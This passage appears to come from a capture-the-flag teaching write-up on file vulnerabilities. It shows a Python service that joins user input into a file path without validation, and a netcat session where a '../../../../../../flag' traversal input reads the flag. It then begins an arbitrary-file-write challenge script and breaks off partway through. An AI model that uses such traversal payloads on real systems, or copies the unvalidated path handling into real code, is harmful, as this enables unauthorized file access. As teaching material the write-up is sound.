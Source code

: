 ```console
```

Basically, what it does is ask the user for a name to a file containing some
ascii art and displays the contents of the file to the user if the script is
able to retrieve it. The vulnerability exists on the following line since there
is no input validation to determine whether the filename the user provides is
legitimate or not.

```python
        location = "/home/arbitraryread/art/" + pick
        contents = open(location).read()
```

We can read the flag file at `/flag` by traversing upwards in the directory path
using `..` to get to root:

```console
elliot@ctf101-shell:~/ctf101$ nc pwn.spro.ink 1339
Our selection: futurama, ghost, pinkfloyd, rat
Take your pick: ../../../../../../flag
ctf101{M3x1c4n_wr3stl3r_by_4dd13}

elliot@ctf101-shell:~/ctf101$
```

### Arbitrary File Write

The next one is a pretty involved one. With arbitrary file writes, many things
are possible. However, let's look at a scenario where we elevate our privileges
within the program using an arbitrary file write vulnerability. Here's the
script:

```python
#! /usr/bin/python

import sys

# global variables
logged_in = False
admin = False
FLAG = open("/home/arbitrarywrite/flag").read()

def write(data):
    sys.stdout.write(data)
    sys.stdout.flush()

def main():
    write("Secret Storage 1.0\n")
    while True:
        if not logged_in:
            # Print the menu
            write("You are not logged in. Please choose one option: \n")
            write("1. Log in\n")
            write("2. Create Account\n")

            # Read the choice
            choice = sys.stdin.readline().strip()

            # Read the username and password
            write("Please enter your name: ")
            name = sys.stdin.readline().strip()
            write("Please enter your password: ")
            password = sys.stdin.readline().strip()

            # Process the choices
            if choice == "1":
```